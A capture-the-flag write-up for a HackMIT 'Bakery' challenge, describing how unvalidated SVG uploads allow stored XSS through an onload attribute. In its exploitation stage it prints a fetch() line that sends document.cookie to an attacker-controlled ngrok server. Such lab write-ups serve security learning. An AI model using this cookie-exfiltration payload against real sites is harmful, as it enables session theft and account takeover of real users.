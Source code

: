 # Bakery

tl;dr: The image upload feature could be abused to upload content that could allow you to execute your own JavaScript and exfiltrate Vishy's Cookies.

## The Briefing

To celebrate HackMIT's 10th birthday, you've decided to order a very special cake from the HackBakery!! Come visit [HackBakery](https://bakery.hackxgpt.com/u/Aathish04_a74704) to place your order. Some say their cookies are the best in the world, though they might be a little hard to come by 👀.

## Stage 1 - Reconnaissance

From the prompt, it seems like we'll have to find some kind of hidden cookie.

Let's try to find as much information as we can about the target site.

When we visit the link, we're greeted with the following page:

![Initial Screen](./images/InitScreen.png)

It looks like we can enter some basic information like our First and Last Name, the delivery date, and upload a file to the server.

And just like the briefing implied, we don't have any cookies to play around with here. Finding them will be more difficult.

Having a look at the source code for the page, we find a very interesting comment:

![Validate Files Serverside Comment](./images/ValidateFilesServersideComment.png)

So we now know our exploit will have to leverage the lack of file validation on the server end.

Before we fill in any form data, let's start analysing the requests sent back and forth from our system to the website using a tool like [BurpSuite](https://portswigger.net/burp).

I'll enable the `Intercept` feature, since I think it will be useful to look at and modify the requests before they leave my system.

Filling in every piece of information and uploading a dummy `.png` file, we see:

![Burp With Dummy Form Data](./images/BurpWithDummyData.png)

We see what we expected to see - all the data neatly packaged into a `POST` request.

We let this request go through, and we get the following page in response:

![Burp and Browser On Preview Page](./images/AfterDummyData.png)

Three things stood out to me, and only two of them turned out to be relevant.

1. Vishy would apparently see our order shortly.
2. This page was using an `<object>` tag to display the image we uploaded, which was renamed.
3. The `name`, `date` and `size` were being set by Javascript on the client side.

Of these observations, the relevant ones turned out to be the fact that Vishy would see our order soon, and that the page was using an `<object>` tag to display the image we uploaded.

The fact that Vishy would see our order probably meant that they had the cookie that we so desparately desired. This seems like an XSS challenge, where we exploit a [Cross-Site-Scripting](https://owasp.org/www-community/attacks/xss) vulnerability on a site and get our target (in this case poor old Vishy) to visit that site and run JavaScript on behalf of them.

I found the fact that the page used `<object>` tags to display our image a little odd - surely a basic `<img>` tag would suffice right? This got me thinking about what kind of potentially malicious files one could upload and maybe have displayed on the site.

## Stage 2 - Initial Access

I'd done a little work with SVG files for other projects, and I had a hunch I could execute arbitrary Javascript using them.

First, I tried uploading a normal SVG file (one of the samples from dev.w3.org [here](https://dev.w3.org/SVG/tools/svgweb/samples/svg-files/)) to see what response I would get.

![After Normal SVG Upload](./images/AfterNormalSVG.png)

Cool, our file went through!

Now, let's see if we can get some Javascript to execute once the SVG has been loaded.

Let's add an `onload` attribute to the `svg` tag of our file:
```svg
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100" onload="alert('hello world!')">
```

Now, after uploading the file, we should get an alert on our screen.

Even before uploading the file to the server, just rendering it on the data entry page results in an XSS. I'm taking this to be a good sign, though it's no guarantee of anything ;)

![XSS Before Server Upload](./images/XSSBeforeServerUpload.png)

Now, lets see if any sanitisation is performed on the server's side to remove the malicious alert:

![XSS After Server Upload](./images/XSSAfterServerUpload.png)

Bingo! We get the alert that we want!

## Stage 3 - Exploitation

Now let's craft a line of JavaScript that will get the `document.cookie` and send it to a server we control through a request.

There are many tools online that allow you to do stuff similar to this - tools like `PostBin` will give you a URL that you can make requests to from anywhere and display the results of those requests. However, I faced some issues with it not setting its CORS headers to allow cross-origin requests, so I decided to take full control and host my own simple Python HTTP server and use [`ngrok`](https://ngrok.com/) to expose it to the rest of the internet.

I used the Python3 implementation from [this](https://stackoverflow.com/a/21957017) StackOverflow Answer, and it worked amazingly.

Once my server was running, I asked `ngrok` to connect it to the public internet and give me a URL I could make requests to, and it gladly obliged:

![Python Server and NGrok](./images/PyServerAndNGrok.png)

Now, to make a request to this endpoint using Javascript, we can use the `fetch()` API.

We simply pass the `fetch()` function what URL we need to make a request to. Even though it isn't very secure, it's easiest to use a GET request to transmit data this way, so let's just append the cookie to the endpoint:

`fetch(`https://<redacted\>.ngrok-free.app?cookie=`+document.cookie+' recieved')`

This should make a request to the endpoint we set up with the query parameter `cookie` corresponding to Vishy's cookie and after it the text ` recieved`.

Editing the `onload` attribute to execute this Javascript, we finally have our payload!

Let's upload it and monitor our server for any activity.

![After Final XSS](./images/AfterFinalXSS.png)

Wonderful! We see that we get 3 requests to our server.

Two of these were because of us visiting the page - once when we uploaded the file and the second when we visited the preview page.

The third is Vishy looking at our order and letting their cookies be exfiltrated to our server!

Opening up NGrok Inspector to take a closer look at the requests, we find that we did, indeed get the flag as part of Vishy's cookie!

![NGRokInspector](./images/NGrokInspectorFinal.png)


We enter the flag into the Command Centre, and we're good to go!